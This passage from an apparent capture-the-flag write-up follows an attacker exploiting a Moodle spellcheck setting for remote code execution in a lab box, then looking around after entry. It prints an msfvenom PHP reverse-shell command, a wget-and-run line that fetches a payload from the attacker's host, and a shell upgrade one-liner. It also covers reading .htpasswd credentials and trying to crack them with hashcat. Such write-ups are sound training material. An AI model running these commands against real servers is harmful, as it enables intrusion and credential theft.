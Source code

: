 I attempted to fire off this MSF exploit, and the exploit ran but failed to generate a shell. I looked further into the source code of the module and noticed it was apparently trying to target the same area of the application I was looking at earlier which referenced the system path of the **aspell** plugin.

I had been confused earlier as the exploits noted appeared to target **aspell**, while the tinyMCE editor only had PSpell listed as an available plugin on its Moodle configuration page. However a quick Google search showed that PSpell was dependent on aspell installations, so I surmised this dependency could trigger the vulnerability. First I created my payload: 

`sudo msfvenom -p php/reverse_perl lhost=172.16.2.2 lport=443 -f raw -o /var/www/html/phprev443perl.php`

I then manually edited the sh command that was originally meant to trigger the spell checker to read:

`sh -c '(wget 172.16.2.2/phprev443perl.php -O/tmp/phprev443perl.php && php /tmp/phprev443perl.php)'`

After setting up my listener, I then navigated to a page that had a text editor running, and looked for the spellcheck option.
![spellcheck](https://user-images.githubusercontent.com/15524701/43056874-5fec938a-8e04-11e8-900c-2038c113d74d.jpeg)

(The rightmost button in the bottom row activates the spellcehck feature).

Clicking the button triggered my command and the reverse shell was sent to the C2 system in the context of the remote user www-data, the low-priv apache account meant to prevent successful RCE attacks against Apache servers from giving root privileges.


#Post Exploitation
First, I upgraded my shell to a pseudo tty. This helps increase the sorts of commands we can run without failure, which can include things such as the `su` and `cd`. Since ``python`` is installed, we can use the trusty pty module:
python -c 'import pty;pty.spawn("/bin/bash")'

If it weren’t, we could get **socat** from our C2 machine and use that alternatively. A nifty guide on shell upgrades can be found here: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

With an upgraded shell, I began to scan the directories of the webserver, /var/www/html/ for additional information. 

I also poked in the server root in /etc/apache2. navigating there, I found a .htpasswd file which contained creds for 2 users, _boris_ and _ops_. htpasswd contains login credentials used to access pages protected by basic auth on the Apache server (in this case the /sev-home/ directory). I already had Boris’ creds from earlier, so I tried to crack ops’ creds. Utilizing hashcat, i employed several million words (the entirety of the seclists/passwords wordlist suite hosted on github) and failed to crack ops’ password. I then did a straight bruteforce up to 6 characters including special chars and failed to get a match. 7 chars would have taken 4 days, so I determined that wasn’t going to be the way in. 

Going back to the /var/www/html/ directory, i started to grep for more mentions of the usernames, boris, natalya, and so on. I found a mention in a page I hadn’t explored yet `severnaya-station.com/splashAdmin.php`

Navigating here, we get a sort of message board containing chatter between a few users, with an admin mentioning that GCC had been removed from the box and replaced by a FreeBSD alternative. I did some quick searching and found this alternative app to be `clang`, which has LLVM as a backend. This is a gcc compatible compiling engine created as an alternative to gcc at least in part due to some differences of political and technical opinion between the relevant camps.
